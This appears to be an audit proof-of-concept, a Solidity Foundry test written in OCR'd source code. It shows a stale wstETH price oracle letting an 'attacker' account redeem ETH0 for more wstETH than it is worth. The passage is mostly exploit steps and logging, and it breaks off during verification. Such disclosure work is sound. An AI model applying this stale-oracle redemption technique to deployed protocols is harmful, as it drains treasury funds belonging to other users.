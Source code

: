 ```solidity
        classicalOracle.initializeTokenOracle(
            wstETH,
            address(wstEthOracle),
            24 hours,
            false
        );
        // Mock initial price: 1 wstETH = 1 ETH
        vm.mockCall(
            address(wstEthOracle),
            abi.encodeWithSelector(LidoProxyWstETHPriceFeed.latestRoundData.selector),
            abi.encode(1, int256(1e18), block.timestamp, block.timestamp, 1)
        );
        uint256 initialPrice = uint256(classicalOracle.getPrice(wstETH));
        console.log("Initial wstETH/ETH price:", initialPrice, "(raw units)");
        assertEq(initialPrice, 1e18, "Initial price should be 1 ETH");

        // Fund attacker (bob) and treasury
        deal(wstETH, bob, 1000e18); // 1000 wstETH
        deal(wstETH, treasury, 1000e18); // Treasury wstETH
        vm.prank(treasury);
        IERC20(wstETH).approve(address(daoCollateral), 1000e18);
        deal(address(stbcToken), treasury, 1000e18); // Treasury ETH0
        console.log("Bob wstETH balance:", IERC20(wstETH).balanceOf(bob) / 1e18, "wstETH");
        console.log("Treasury wstETH balance:", IERC20(wstETH).balanceOf(treasury) / 1e18, "wstETH");
        console.log("Treasury ETH0 balance:", stbcToken.balanceOf(treasury) / 1e18, "ETH0");
    }

    function test_UsingStalePrice() public {
        // Step 1: Bob swaps 1000 wstETH for 1000 ETH0 at 1 wstETH = 1 ETH
        vm.startPrank(bob);
        IERC20(WSTETH).approve(address(daoCollateral), 1000e18);
        daoCollateral.swap(WSTETH, 1000e18, 1000e18); // Expect 1000 ETH0
        uint256 eth0Balance = stbcToken.balanceOf(bob);
        console.log("After swap - Bob ETH0 balance:", eth0Balance / 1e18, "ETH0");
        console.log("After swap - Bob wstETH balance:", IERC20(WSTETH).balanceOf(bob) / 1e18, "wstETH");
        console.log("After swap - Treasury wstETH balance:", IERC20(WSTETH).balanceOf(treasury) / 1e18, "wstETH");

        // Step 2: Price changes to 1 wstETH = 1.2 ETH, but stEthPerToken fails to update
        // LidoProxyWstETHPriceFeed's staleness check is useless, so it won't detect staleness
        // oracle reports 1 ETH due to stale price (as stEthPerToken doesn't update)
        uint256 stalePrice = uint256(classicalOracle.getPrice(WSTETH));
        console.log("Stale  wstETH/ETH price :", stalePrice, "(raw units)");
        console.log("Correct wstETH/ETH price:", 1.2e18, "(raw units)");

        // Step 3: Bob redeems 1000 ETH0, he should get ~833 wstETH minus fee, but gets 1000 wstETH minus fee
        stbcToken.approve(address(daoCollateral), 1000e18);
        daoCollateral.redeem(WSTETH, 1000e18, 900e18);
        uint256 wstEthBalanceAfterRedeem = IERC20(WSTETH).balanceOf(bob);
        console.log("After redeem - Bob wstETH balance:", wstEthBalanceAfterRedeem / 1e18, "wstETH");
        console.log("After redeem - Bob ETH0 balance:", stbcToken.balanceOf(bob) / 1e18, "ETH0");
        console.log("After redeem - Treasury wstETH balance:", IERC20(WSTETH).balanceOf(treasury) / 1e18, "wstETH");

        // Verify exploit
        uint256 redeemFee = daoCollateral.redeemFee();
        uint256 expectedWstETH = 833e18 - (833e18 * redeemFee / 10_000); // 833 because 1000 ETH0 / 1.2 ETH/wstETH
        uint256 receivedWstETH = wstEthBalanceAfterRedeem;
```